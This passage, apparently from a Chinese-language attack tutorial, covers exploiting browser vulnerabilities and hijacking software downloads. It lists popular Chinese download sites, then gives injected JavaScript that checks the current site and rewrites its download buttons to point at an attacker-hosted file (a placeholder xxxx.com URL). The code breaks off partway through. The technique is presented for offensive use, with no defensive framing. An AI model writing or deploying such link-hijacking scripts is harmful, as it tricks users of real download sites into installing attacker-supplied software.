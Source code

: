 #### 0x3.2 使用浏览器漏洞进行攻击
漏洞是要靠自己挖掘的，这里不再多说，大家可以去看一下Blast写的书籍《浏览器安全》。也可以看下之间黑哥写的PPT《去年跨过的浏览器》，之前maxthon就因为特殊域下的`mxCall`函数的问题，导致可以执行任意命令。大家可以挖挖看，总会有意想不到的收获。

#### 0x3.3 替换下载链接
替换的话，我们需要先采集几个下载量比较大的下载站，我这里列举一下：

> [ZOL下载-免费软件,绿色软件](http://xiazai.zol.com.cn/)
>
> [天空下载站](http://www.skycn.com/)
>
> [华军软件园](http://www.onlinedown.net/)
>
> [hao123下载站](http://www.skycn.net/)
>
> [太平洋下载中心](http://dl.pconline.com.cn/)
>
> [百度软件中心](http://rj.baidu.com/)

还有很多，这里就不在列举了，下面我们就根据这些下载站来写替换的javascript代码。
先写段代码，让他判断当前的网址是否为下载站
```javascript
(function(){
    var downloadWebsite = [
        'http://xiazai.zol.com.cn',
        'http://www.skycn.com',
        'http://www.onlinedown.net',
        'http://dl.pconline.com.cn',
        'http://rj.baidu.com'
    ];  //要替换的下载站url地址
    var replaceDownloadUrl = "http://xxxx.com/download/soft.rar";   //要替换的下载软件
    switch(location.origin){  //对当前的url进判断，是否为下载站，如果是则进入其操作函数里
        case downloadWebsite[0]:
            var download1 = document.getElementById("downloadTop");
            var download2 = document.querySelectorAll(".down-alink a");
            var download3 = document.querySelectorAll(".down-alink01 a");
            if(download1 != null && download2.length != 0 && download3.length != 0){
                download1.href = replaceDownloadUrl;
                for(var j = 0;j < download2.length;j++){
                    download2[j].href = replaceDownloadUrl;
                }
                for(var k = 0;k < download3.length;k++){
                    download3[k].href = replaceDownloadUrl;
                }
            }
        break;
        case downloadWebsite[1]:
            var download1 = document.querySelectorAll(".ul_Address li a");
            if(download1.length != 0){
                for(var j = 0;j < download1.length;j++){
                    download1[j].href = replaceDownloadUrl;
                }
            }
        break;
        case downloadWebsite[2]:
            var download1 = document.querySelectorAll(".softinfoBox .meg a");
            var download2 = document.querySelectorAll(".downDz a");;
            if(download1.length != 0 && download2.length != 0){
                download1[0].href = replaceDownloadUrl;
                for(var j = 0;j < download2.length;j++){
                    download2[j].href = replaceDownloadUrl;
                }
            }
        break;
```